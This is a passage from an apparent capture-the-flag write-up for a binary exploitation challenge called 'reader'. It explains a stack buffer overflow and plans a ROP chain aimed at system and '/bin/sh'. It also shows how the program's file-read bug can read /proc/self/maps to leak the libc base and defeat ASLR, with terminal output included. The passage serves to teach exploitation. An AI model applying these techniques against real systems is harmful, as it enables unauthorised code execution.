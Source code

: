 After entering a 256 byte input the program terminates with a SIGSEV. Looking at the stack we see that more than 100 bytes have been written to memory overwriting other address on the stack.

![Reader BOF](reader_bof.png)

From this we can start thinking of overwriting the return address on the stack. Then we will craft our ROP chain and write it to memory to finally obtain code execution. Our current challenges are :
1. Determine the exact offset required to overwrite the saved return address.
2. Obtain a libc leak (so we can compute libc_base) and then build a ROP chain using libc gadgets.

### Leaking libc
The program’s arbitrary-file-read primitive gives a simple, reliable way to discover the runtime libc base: read `/proc/self/maps`, find the line for the loaded libc, and parse the start address. With that single pointer you can compute `libc_base` and derive `system`, `pop rdi; ret`, `"/bin/sh"`, etc., regardless of ASLR/PIE.
```
mcsam@0x32:~/Desktop/ctf/flagyard/pwn/reader$ ./reader
give me file to read: /proc/self/maps
5e2666c0b000-5e2666c0c000 r--p 00000000 103:02 6747154                   /home/mcsam/Desktop/ctf/flagyard/pwn/reader/reader
5e2666c0c000-5e2666c0d000 r-xp 00001000 103:02 6747154                   /home/mcsam/Desktop/ctf/flagyard/pwn/reader/reader
5e2666c0d000-5e2666c0e000 r--p 00002000 103:02 6747154                   /home/mcsam/Desktop/ctf/flagyard/pwn/reader/reader
5e2666c0e000-5e2666c0f000 r--p 00002000 103:02 6747154                   /home/mcsam/Desktop/ctf/flagyard/pwn/reader/reader
5e2666c0f000-5e2666c10000 rw-p 00003000 103:02 6747154                   /home/mcsam/Desktop/ctf/flagyard/pwn/reader/reader
5e268f6d6000-5e268f6f7000 rw-p 00000000 00:00 0                          [heap]
701215400000-701215428000 r--p 00000000 103:02 2099474                   /usr/lib/x86_64-linux-gnu/libc.so.6
701215428000-7012155bd000 r-xp 00028000 103:02 2099474                   /usr/lib/x86_64-linux-gnu/libc.so.6
7012155bd000-701215615000 r--p 001bd000 103:02 2099474                   /usr/lib/x86_64-linux-gnu/libc.so.6
701215615000-701215616000 ---p 00215000 103:02 2099474                   /usr/lib/x86_64-linux-gnu/libc.so.6
701215616000-70121561a000 r--p 00215000 103:02 2099474                   /usr/lib/x86_64-linux-gnu/libc.so.6
70121561a000-70121561c000 rw-p 00219000 103:02 2099474                   /usr/lib/x86_64-linux-gnu/libc.so.6
70121561c000-701215629000 rw-p 00000000 00:00 0 
7012156d7000-7012156da000 rw-p 00000000 00:00 0 
7012156fa000-7012156fc000 rw-p 00000000 00:00 0 
7012156fc000-7012156fe000 r--p 00000000 103:02 2097540                   /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7012156fe000-701215728000 r-xp 00002000 103:02 2097540                   /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
701215728000-701215733000 r--p 0002c000 103:02 2097540                   /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
701215734000-701215736000 r--p 00037000 103:02 2097540                   /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
701215736000-701215738000 rw-p 00039000 103:02 2097540                   /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7ffca71f1000-7ffca7212000 rw-p 00000000 00:00 0                          [stack]
7ffca730f000-7ffca7313000 r--p 00000000 00:00 0                          [vvar]
7ffca7313000-7ffca7315000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]
give me file to read: 
```
